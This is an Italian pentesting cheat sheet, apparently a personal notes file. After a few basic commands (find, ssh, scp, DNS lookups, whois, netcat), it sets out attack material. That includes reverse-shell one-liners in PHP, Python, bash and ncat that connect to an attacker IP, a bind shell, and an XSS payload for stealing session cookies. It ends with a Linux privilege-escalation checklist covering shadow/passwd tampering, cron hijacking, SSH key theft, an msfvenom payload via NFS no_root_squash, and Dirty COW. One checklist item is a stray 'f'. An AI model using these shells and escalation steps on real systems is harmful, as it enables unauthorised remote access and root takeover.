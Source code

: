 # LISTA COMANDI UTILI

###### FIND
   è il comando usato per trovare un file seguendo certi criteri
	- `find /`: inizia a cercare da root
	- `-user user1`: cerca file creato da utente user1
	- `-group group1`: cerca file creato da gruppo group1
	- `-size +6c -size -10c`: cerca file con dimensione maggiore di 6byte e minori di 10 byte
	- `-perm 4000`: cerca file con permessi utente root, se 2000 file avviato con privilegi del gruppo invece, che potrebbe essere root

###### SSH
   è il comando per potersi collegare ad un computer in remoto
	- `ssh username@hostname`: connettiti ad IP = hostname usando username per credenziale d'accesso
	- `-p 2020`: utilizza la porta 2020 per la connessione

###### SCP
   è il comando per trasferire file usando ssh
	- `scp username@hostname:/percorso/origine /percorso/destinazione/nome_file_di_destinazione`: prendi file dalla connessione ssh e salvalo in locale con nome nome_file_di_destinazione
	- `-r`: copia una intera directory

###### HOST
   è il comando utilizzato per eseguire query DNS e ottenere informazioni sui nomi di dominio.
	- **`-t ns`**: specifica il tipo di record DNS che desideri ottenere. In questo caso, "ns" sta per "nameserver", quindi stai chiedendo di ottenere informazioni sui server dei nomi del dominio
	- **`-t mx`**: specifica il tipo di record DNS richiesto, in questo caso, "mx" per i record di scambio di posta (Mail Exchange)
	- `-l hostname.com nsztm2.digi.ninja`: prova un DNS Zone Transfer, utile per altre informazioni

###### WHOIS
   è il comando per vedere informazioni sul possesso di un dominio o di un indirizzo IP. Potrebbe interessarti il "Name Server" per DNS Zone Transfer
	`whois esempio.com`: vedi le informazioni di esempio.com

###### NC
    utile per creare client/server rapidamente. Ottimo per mandare i comandi alla macchina che stiamo attaccando
- ```nc -l 1234```: inizia ad ascoltare nella porta 1234
- ```nc 127.0.0.1 1234```: connettiti alla macchina con indirizzo 127.0.0.1 alla porta 1234


# SHELLS
## REVERSE SHELL
Nella reverse shell è l'attacker che si mette in listening e la vittima si collega

### ATTACCANTE

```
ncat -lvnp 4242
```

### VITTIMA

#### php
```
php -r '$sock=fsockopen("IP_ATTACCANTE",4242);shell_exec("sh <&3 >&3 2>&3");'
```

#### python3
```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP_ATTACCANTE",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

#### bash

```
bash -i >& /dev/tcp/IP_ATTACCANTE/4242 0>&1
```

```
0<&196;exec 196<>/dev/tcp/IP_ATTACCANTE/4242; sh <&196 >&196 2>&196
```

```
/bin/bash -l > /dev/tcp/IP_ATTACCANTE/4242 0<&1 2>&1
```

#### netcat
```
ncat IP_ATTACCANTE 4242 -e /bin/bash
```

## BIND SHELL
Nella bind shell è la vittima che si mette in listening e l'attaccante si collega

### VITTIMA

```
nc -lvnp 4242 -e /bin/bash
```

### ATTACCANTE
```
nc IP_VITTIMA 4242
```

# XSS
```<script>alert(document.cookie)</script>``` è quello che mediamente mi può interessare per idSession

1. prova a metterlo nella URL se puoi dopo il ?
2. prova a metterlo in un button come `onclick=alert(document.cookie)`
3. prova a metterlo nella URL dopo una GET/POST con `&<script>alert(document.cookie)</script>`


# PRIVILAGE ESCALATION

La guida che segue è un po' disordinata, è più una lista di metodi da provare che altro. 

0. **CALDAMENTE CONSIGLIATO** Runna [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) dopo averlo scaricato sulla macchina vittima
1. Controlla se il file /etc/shadow è readable, cracka la hash del root
2. Controlla se il file /etc/shadow è writable, genera una nuova password sha-512 `mkpasswd -m sha-512 newpasswordhere` e sostituiscila a root
3. Controlla se il file /etc/passwd è writable, genera una password con `openssl passwd newpasswordhere` copia la riga iniziale di root alla fine di passwd, sostituisici il primo `root:x` con `newroot:password`, cambia utente in newroot
4. Usa `sudo -l` e vedi che comandi puoi usare come root, usa [GTFOBins](https://gtfobins.github.io/) per vedere quali permettono di fare privilage escalation
5. Guarda `cat /etc/crontab`, vedi se ci sono programmi che vengono eseguiti come root e prova a modificarli per avere shell o qualcosa di simile
6. Guarda `cat /etc/crontab`, vedi il PATH e i programmi che vengono eseguiti come root, crea un programma con lo stesso nome di quello root nella prima cartella in ordine che appare in PATH che ti possa permettere di avere una shell o qualcosa di simile
7. Guarda `cat /etc/crontab`, vedi se tra  i programmi root si sono WILDCARDS \*, poi usa gli exploit adatti
8. Guarda `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`, cerca se ci sono file soggetti ad exploit da [Exploit DB](https://www.exploit-db.com/)
9. f
10. Guarda se magari nella cronologia `cat ~/.*history | less` ha per sbaglio messo la password
11. Cerca se c'è la chiave SSH da qualche parte, copiala in un file root_key, `chmod 600 root_key`, e poi prova a connetterti con questa chiave `ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@IP_VITTIMA`
12. Guarda `cat /etc/exports`, se ci sono opzioni `no_root_squash` allora puoi usare il `mount` come root per avere privilegi root nella macchina vittima. 
		 ATTACCANTE (es. su /tmp vulnerabile a no_root_squashing):
		`mkdir /tmp/nfs` 
		`mount -o rw,vers=3 IP_VITTIMA(credo):/tmp /tmp/nfs`
		`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`
		`chmod +xs /tmp/nfs/shell.elf`
		VITTIMA:
		`/tmp/shell.elf`
13. Come ultima istanza, prova un Dirty COW, anche se meglio di no
